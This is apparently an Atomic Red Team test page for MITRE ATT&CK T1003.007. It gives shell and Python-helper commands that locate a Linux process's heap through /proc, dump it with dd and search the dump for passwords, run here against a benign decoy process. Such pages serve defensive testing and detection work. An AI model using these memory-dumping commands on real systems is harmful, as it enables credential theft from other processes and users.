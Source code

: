 # T1003.007 - Proc Filesystem
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/007)
<blockquote>Adversaries may gather credentials from information stored in the Proc filesystem or <code>/proc</code>. The Proc filesystem on Linux contains a great deal of information regarding the state of the running operating system. Processes running with root privileges can use this facility to scrape live memory of other running programs. If any of these programs store passwords in clear text or password hashes in memory, these values can then be harvested for either usage or brute force attacks, respectively.

This functionality has been implemented in the MimiPenguin(Citation: MimiPenguin GitHub May 2017), an open source tool inspired by Mimikatz. The tool dumps process memory, then harvests passwords and hashes by looking for text strings and regex patterns for how given applications such as Gnome Keyring, sshd, and Apache use memory to store such authentication artifacts.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Dump individual process memory with sh (Local)](#atomic-test-1---dump-individual-process-memory-with-sh-local)

- [Atomic Test #2 - Dump individual process memory with Python (Local)](#atomic-test-2---dump-individual-process-memory-with-python-local)


<br/>

## Atomic Test #1 - Dump individual process memory with sh (Local)

auto_generated_guid: 7e91138a-8e74-456d-a007-973d67a0bb80

Using `/proc/$PID/mem`, where $PID is the target process ID, use shell utilities to
copy process memory to an external file so it can be searched or exfiltrated later.
**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | Path | /tmp/T1003.007.bin|
| script_path | Path to script generating the target process | Path | /tmp/T1003.007.sh|
| pid_term | Unique string to use to identify target process | String | T1003.007|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sh #{script_path}
PID=$(pgrep -n -f "#{pid_term}")
HEAP_MEM=$(grep -E "^[0-9a-f-]* r" /proc/"$PID"/maps | grep heap | cut -d' ' -f 1)
MEM_START=$(echo $((0x$(echo "$HEAP_MEM" | cut -d"-" -f1))))
MEM_STOP=$(echo $((0x$(echo "$HEAP_MEM" | cut -d"-" -f2))))
MEM_SIZE=$(echo $((0x$MEM_STOP-0x$MEM_START)))
dd if=/proc/"${PID}"/mem of="#{output_file}" ibs=1 skip="$MEM_START" count="$MEM_SIZE"
grep -i "PASS" "#{output_file}"
```

#### Cleanup Commands:
```sh
rm -f "#{output_file}"
```



#### Dependencies:  Run with `sh`!
##### Description: Script to launch target process must exist
##### Check Prereq Commands:
```sh
test -f #{script_path}
grep "#{pid_term}" #{script_path}
```
##### Get Prereq Commands:
```sh
echo '#!/bin/sh' > #{script_path}
echo "sh -c 'echo \"The password is #{pid_term}\" && sleep 30' &" >> #{script_path}
```




<br/>
<br/>

## Atomic Test #2 - Dump individual process memory with Python (Local)

auto_generated_guid: 437b2003-a20d-4ed8-834c-4964f24eec63

Using `/proc/$PID/mem`, where $PID is the target process ID, use a Python script to
copy a process's heap memory to an external file so it can be searched or exfiltrated later.
**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | Path | /tmp/T1003.007.bin|
| script_path | Path to script generating the target process | Path | /tmp/T1003.007.sh|
| python_script | Path to script generating the target process | Path | PathToAtomicsFolder/T1003.007/src/dump_heap.py|
| pid_term | Unique string to use to identify target process | String | T1003.007|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sh #{script_path}
PID=$(pgrep -n -f "#{pid_term}")
PYTHON=$(which python || which python3 || which python2)
$PYTHON #{python_script} $PID #{output_file}
grep -i "PASS" "#{output_file}"
```

#### Cleanup Commands:
```sh
rm -f "#{output_file}"
```



#### Dependencies:  Run with `sh`!
##### Description: Script to launch target process must exist
##### Check Prereq Commands:
```sh
test -f #{script_path}
grep "#{pid_term}" #{script_path}
```
##### Get Prereq Commands:
```sh
echo '#!/bin/sh' > #{script_path}
echo "sh -c 'echo \"The password is #{pid_term}\" && sleep 30' &" >> #{script_path}
```
##### Description: Requires Python
##### Check Prereq Commands:
```sh
(which python || which python3 || which python2)
```
##### Get Prereq Commands:
```sh
echo "Python 2.7+ or 3.4+ must be installed"
```




<br/>
